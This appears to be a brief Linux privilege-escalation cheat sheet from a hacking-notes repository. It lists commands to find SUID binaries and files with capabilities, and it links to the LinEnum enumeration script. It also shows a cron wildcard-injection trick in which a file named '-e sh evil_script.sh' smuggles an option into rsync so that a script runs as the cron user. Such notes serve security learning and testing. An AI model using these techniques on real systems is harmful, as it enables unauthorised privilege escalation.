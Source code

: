 



* [Find SUID-bit set files](#suid-binary)
* [Find executable with capabilites](#capabilities-executable)
* [Exploiting wildcards crons](#wild-wildcards)
* [LinEnum.sh](#linenum.sh)





## suid binary

`$ find / -perm -u=s 2>/dev/null`


## Capabilities executable

` find / -type f -print0 2>/dev/null  |  xargs -0 getcap   2>/dev/null`


## Wild Wildcards

When a cronjob is running with a wildcard as * as arguments, it can be exploited:

example:  

	- cron :  

	> $ rsync /backup/* rsync://backup:/src/backup-server/

We can create a file that gonna act as an argument, like:  

	> $ touch -- "/backup/-e sh evil_script.sh"

The final command will be executed as:  

	> $ rsync -e sh evil_script.sh rync://backup:/src/backup-server/   


rync will execute the script as the user who runs the cron :D


## LinEnum.sh

Bash script tool who gives you a entire surface map of the system :D  

- [LinkToLinenum](https://github.com/jcatala/h4ckme/tree/master/enumeration/linenum.sh)


